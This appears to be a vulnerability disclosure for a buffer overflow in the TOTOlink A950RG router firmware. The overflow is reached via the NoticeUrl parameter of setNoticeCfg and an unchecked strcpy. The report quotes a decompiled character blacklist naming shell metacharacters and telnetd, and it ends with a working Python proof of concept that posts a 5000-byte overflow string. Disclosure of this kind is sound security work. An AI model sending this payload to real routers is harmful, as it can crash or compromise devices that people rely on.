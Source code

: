 # TARGET
Product: TOTOlink A950RG
Fimware: V4.1.2cu.5204_B20210112

# BUG TYPE
Buffer Overflow
# Abstract
The TOTOlink A950RG router device contains a buffer overflow vulnerability in its firmware version V4.1.2cu.5204_B20210112. The vulnerability arises from the improper input validation of the `NoticeUrl` parameter in the `setNoticeCfg` interface of `/lib/cste_modules/system.so`. A remote attacker could exploit this flaw to execute arbitrary code on the system or cause a denial of service.
# Details

By analyzing the `setNoticeCfg` function in `/lib/cste_modules/system.so` using IDA, we find that the entry address of the function is `0x004CCC`. 

![Snipaste_2025-04-05_22-16-38](figures/Snipaste_2025-04-05_22-16-38.png)

At line 45, the function:

1. Extracts a parameter named `NoticeUrl` from the web request
2. Passes this URL to the `GetDomainName` function to extract the domain portion
3. Stores the extracted domain in the `v36` buffer

A buffer overflow vulnerability exists in the `GetDomainName` function. Specifically, variable `a1` is copied to `a2` using `strcpy` without any filtering or length verification. The function doesn't check whether `a2` has sufficient space to store the copied string. Further analysis confirms that the controllable `NoticeUrl` parameter can trigger this buffer overflow vulnerability. In the `setNoticeCfg` function, `v7` corresponds to `a1` and `v36` corresponds to `a2`. If the string pointed to by `v7` exceeds the size of the `v36` buffer, a buffer overflow can occur, potentially overwriting adjacent memory regions and causing undefined behavior.

![Snipaste_2025-04-06_00-44-55](figures/Snipaste_2025-04-06_00-44-55.png)

Although the `setNoticeCfg` function includes a `Validity_check` function at line 106, disassembly reveals that this check only looks for specific dangerous characters but does not verify string length.

![Snipaste_2025-04-06_00-24-20](figures/Snipaste_2025-04-06_00-24-20.png)

The `Validity_check` function details:

```c
BOOL __fastcall Validity_check(int a1)
{
  BOOL result; // $v0
  if ( strchr(a1, ';')
    || strstr(a1, ".sh")
    || strstr(a1, "iptables")
    || strstr(a1, "telnetd")
    || strchr(a1, '&')
    || strchr(a1, '|')
    || strchr(a1, '`') )
  {
    result = 1;
  }
  else
  {
    result = strchr(a1, '$') != 0;
  }
  return result;
}
```

Attackers could exploit this buffer overflow vulnerability by sending API requests, using malicious configuration files, or crafting HTTP requests with excessively long "notice" strings, potentially causing program crashes or more severe consequences.

# POC

```python
import requests
url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

headers = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0",
    "Accept": "*/*",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.1",
    "Connection": "close",
    "Referer": "http://192.168.0.1/adm/notice.asp",
    "Priority": "u=0",
    "Cookie": "SESSION_ID=2:1743870902:2"
    
}

payload = {
    "topicurl": "setting/setNoticeCfg",
    "NoticeEnabled": "1",
    "NoticeUrl": "=http://www.111.com"+"A"*5000,
    "BtnName": "Click here to continue",
    "WhiteListUrl1": "2",
    "WhiteListUrl2": "2",
    "WhiteListUrl3": "4",
    "IpFrom": "1",
    "IpTo": "51",
    "NoticeTimeoutVal": "120"
}

import json
data = json.dumps(payload)

response = requests.post(url, headers=headers, data=data)

print("Status Code:", response.status_code)
print("Response Body:", response.text)
```



![Snipaste_2025-04-06_01-00-54](figures/Snipaste_2025-04-06_01-00-54.png)